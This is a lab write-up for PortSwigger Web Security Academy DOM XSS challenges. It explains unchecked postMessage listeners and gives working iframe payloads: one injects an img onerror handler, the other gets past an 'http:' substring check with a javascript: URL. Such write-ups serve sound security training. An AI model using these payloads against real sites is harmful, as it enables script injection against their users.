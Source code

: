 # DOM-based vulnerabilities

- https://portswigger.net/web-security/dom-based

## DOM XSS using web messages

No `X-Frame-Options` header that would prevent loading this page in the `iframe` and additionally event listener preset for `message` event without origin verification that passes the input without sanitization to the `innerHtml` function.

Event listener for `message` event is our source, and `innerHtml` function is the sink.

Deliver below payload to the victim to solve the lab. It will load the victim page as an iframe and on load will post a message to all origins, causing vulnerable `message` event listener trigger.

```
<iframe src="https://0aa600ac04c124c89e1a8aa5009800fc.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("<img src=X onerror=\"print()\"/>", "*")'></iframe>
```

## DOM XSS using web messages and a JavaScript URL

Same story as before, but this time `message` event listener tries to check whether provided data is the link and update `location.href` by it.

Unfortunately the code shown below does not check whether the provided data starts with `http:` or `https:`, but only if the data contains one of those strings, so it could be bypassed by providing input `javascript:print();//https:`, which when set to `location.href` executes code and calls `print()`

```
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

To solve the lab we can deliver `iframe` containing vulnerable page, which onload posts a message which bypasses the `http` schema check and change `location.href` to `javascript:print()` code which calls the `print()` function.  

```
<iframe src="https://0a7200ce03bc3ad48289581c002500f5.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("javascript:print();//https:", "*")'></iframe>
```
